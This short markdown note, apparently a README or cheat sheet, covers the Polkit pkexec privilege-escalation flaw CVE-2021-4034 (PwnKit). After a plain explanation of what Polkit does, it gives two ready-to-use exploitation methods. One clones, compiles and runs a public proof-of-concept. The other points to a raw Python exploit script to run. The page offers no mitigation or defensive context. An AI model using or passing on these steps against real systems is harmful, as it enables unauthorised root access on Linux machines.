 ### What is **Polkit**? (CVE-2021-4034) **(Pwnkit)** vulnerability:

**Polkit (PolicyKit)** is like a **security gatekeeper** on Linux systems. It helps control **who can do what**—especially when a normal user tries to do something that normally requires **administrator (root)** permissions.
Think of it like this:
- You ask to do something big (like install software).
- Polkit checks: “Are you allowed to do that?”
- If yes → allowed.
- If not → denied (unless you prove you're root or an admin).

###  `pkexec 0.105 is vulnerable `

## Method 1
```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
```

## Method 2
```
https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
 run this code using python 
